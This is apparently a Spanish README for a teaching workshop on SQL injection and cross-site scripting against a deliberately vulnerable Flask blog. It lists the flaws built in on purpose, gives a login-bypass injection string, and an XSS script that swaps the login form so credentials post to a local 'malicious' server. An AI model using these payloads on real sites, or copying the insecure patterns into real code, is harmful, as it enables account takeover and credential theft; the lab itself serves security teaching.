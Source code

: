 # TallerCiberseguridad

Este taller pretende mostrar con ejemplos algunas técnicas usadas para explotar debilidades de seguridad, concretamente en qué consiste el **SQLInjection** y el **Cross Site Scripting**.

# Advertencia:

Con la finalidad de mostrar estos datos, hemos recurrido a varias irregularidades en el código, como pueden ser:

* No escapar el texto que nos llega en una petición (a través del cual luego haremos **XSS**).
* Componer la query **SQL** concatenando textos, en lugar de hacer uso de los **prepared statements**.
* No estamos cifrando las claves de los usuarios en las bases de datos.
* La conexión a la base de datos hace uso de usuario y contraseña, hardcodeados en el código.
* Hemos subido a un repositorio público el **secret** de nuestra aplicación.

# Dependencias

Vienen indicadas en el fichero **requirements**, son los módulos **flask** y **pymysql**. Puedes instalarlos con **pip**

```bash 
pip install flask
pip install pymysql
``` 

# Preparación

Se necesita una base de datos MySQL en local, con usuario **root** con contraseña **root** (podemos usar otra base de datos y/o usuario, contraseña, siempre que lo modifiquemos en el código), sobre la que ejecutaremos el siguiente código:

```sql
create database usuarios
create table usuarios (email varchar(64), clave varchar(32), created timestamp default CURRENT_TIMESTAMP, primary key (email));
insert into usuarios (email, clave) values ('misterio@raro.sa','123abc');
insert into usuarios (email, clave) values ('vegeta@gmail.com','777');
``` 

# Desarrollo

## 1- Levantar el servidor 

Ejecutamos el proceso **ServerBlog.py**. Para ello la base de datos debe estar corriendo.

## 2- Mostrar la página

Se muestra el uso general de la página, que obliga a hacer login para poder publicar comentario.

Existen dos usuarios, usaremos el usuario **vegeta@gmail.com** con contraseña **777** para mostrar que se puede publicar un comentario.

## 3- Ahora nos saltamos la seguridad

Posteriormente nos conectaremos como otro usuario cuya contraseña (supuestamente) no conocemos, el usuario **misterio@raro.sa** y como contraseña realizaremos el **SQLInjection**. Para ello escribiremos lo siguiente como contraseña:

**OJO**: es importante dejar un espacio detrás del **--**, por eso añadimos un apóstrofe, para evitar que no copiéis el espacio.
```sql
' or 1=1  -- '
``` 

## 4- Y ahora nos toca robar datos

Ejecutamos el segundo servidor, **fakeServer.py**. Esto simula ser un servidor maligno creado para robar datos.

Nos autenticamos usando lo visto en el punto anterior, y añadimos un comentario haciendo uso de una vulnerabilidad de *XSS*.

```html
<script type="text/javascript">
var temp = document.getElementById("loginFrame");
delete temp.src;
temp.srcdoc='<!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <title>Cutre Login</title></head><body><form action="http://127.0.0.1:5005/validateLogin" id="formLogin" method="POST">  <label for="user">user:</label>  <input type="text" id="user" name="user"><br><br>  <label for="pass">pass:</label>  <input type="password" id="pass" name="pass"><br><br>  <input type="submit" value="Submit"></form></body></html>';
</script>
``` 

Al hacerlo, sin que se vea en el código fuente, hemos cambaido el formulario de login, para hacer que apunte a nuestro servidor maligno. 

Intentamos logarnos con unos datos cualquiera, y mostramos cómo el servidor maligno ha capturado los datos.



